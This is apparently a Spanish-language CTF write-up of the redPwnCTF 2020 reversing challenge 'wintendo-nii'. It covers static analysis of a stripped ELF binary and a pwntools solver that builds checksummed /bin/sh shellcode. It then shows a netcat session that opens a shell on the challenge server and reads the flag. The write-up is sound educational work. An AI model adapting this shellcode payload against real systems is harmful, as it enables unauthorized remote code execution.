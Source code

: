 # wintendo-nii-reversing redPwnCTF writeup

Reto de la categoria de reversing de redPwnCTF

## File recognition
Observamos que es un ELF 64-bit, que  seguramente es el que se ejecuta en el servicio __2020.redpwnc.tf:31215__

Al observar los stirngs vemos que hay 5 que nos llaman la atencion, al parecer son nombree de juegos

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# file nii
nii: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8def7e412da3017e4dd7fcf2c2d6ad0ac37ba8e4, stripped

root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# strings nii
4%d @
%b @
NIIv0.1:H9
TwltPrncH9F
MaroCartH9F
Fitnes++H9F
AmnlXingH9F
%b @
%b @
4%d @
%b @
int main(){puts(flag);}
.shstrtab
.note.gnu.build-id
.text
.data
```

Al correr el programa vemos que nos pide un input y nos muestra uno simbolos chinos que traducidos dicen "En 2020, Wentian Software Company-Todos los derechos reservados.
Por favor inserte el disco del juego", intenamos con un nombre de los juegos que encontramos enlos strings y nada sucede.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# ./nii
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
MaroCart
```

## Analysis

Procedemos a desensamblar el binario en IDa 7.0, al ser un binario stripped no tiene simbolos por lo que nos es un poco mas dificil encontrar el main, sin embargo encontramos el entry_point del programa y empezaremos por ahi.

Vemos las lineas donde el programa recibe el input y lo manda a una funcion que despues de analizar el codigo es una validacion de que sean numeros hexadecimales de los strings que vimos previamente.

Por lo tanto vemos que el input es una codificacion hexadecimal de la version de la "consola" __NIIv0.1:__ concatenado con el nombre de algun juego, lo que quedaria asi __NIIv0.1:MaroCart__

Vemos aqui los pedazos de codigo.

![alt text][img1]
[img1]: https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_1.JPG

![alt text][img2]
[img2]: https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_2.JPG


Despues de pasar esas validaciones hace una operacion mas y posteriormente procede a ejecutar parte del input que va despues del string de la consola y el juego, lo que nos da una idea que a lo mejor el tenemos que pasar un shellcode.

Analizando mas a fondo vemos que es un header del mismo codifo que le estamos pasando, en caso de no ser este la ejecucion temrina.

![alt text][img3]
[img3]: https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_3.JPG

![alt text][img4]
[img4]: https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_.JPG

## Solution

Despues de analizar todo el coodigo vamos a hacer el el solver para la solucion de este problema, vamos a codificar la operacion del header para que nos de el header del shellcode que enviaremos que en este caso nos regresara una shell

```python
#!/usr/bin/python3
#Author: n0tM4l4f4m4
#Title: solver.py

import struct
import codecs
import binascii
from pwn import *

context.arch = "x86_64"
context.endian  = "little"

str_v = 'NIIv0.1:'
game_1 = 'TwltPrnc'
game_2 = 'MaroCart'
game_3 = 'Fitnes++'
game_4 = 'AmnlXing'

shell_ = asm(shellcraft.sh())

checksum = 0

for val in shell_:
    # print(val)
    v7 = val
    # v7 = ord(val)
    for val2 in range(7, -1, -1):
        if checksum >= 0x80000000:
            v10  = 0x80000011
            pass
        else:
            v10 = 0
            pass
        pass
        v12 = 2 * checksum
        v12 = (v12 & 0xffffff00) | (((v7 >> val2) & 1 ^ v12) & 0xff)
        checksum = v10 ^ v12
    pass

header = struct.pack("<L", checksum)

# print(str_v, game_4, header, shell_)
print(binascii.hexlify(bytes(str_v, 'utf-8') + bytes(game_4, 'utf-8') + header + shell_).upper())
```
Ejecutamos el script para que nos de el payload de los que vamos a meter al binario

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# python3 solver.py
b'4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05'
```
Nos vamos a conectar al servico __2020.redpwnc.tf:31215__ por netcat y paseremos el payload que el script nos dio.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii

```

Vemos que efectivamente nos devolvio una shell y al usar el comando __ls__ nos devuelve ls lista de archivos donde viene la flag.text

Usaremos el comando __cat__ para leer la flag

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii
cat flag.txt
It's dangerous to go alone. Take this!
flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}
```

## Flag
__flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}__
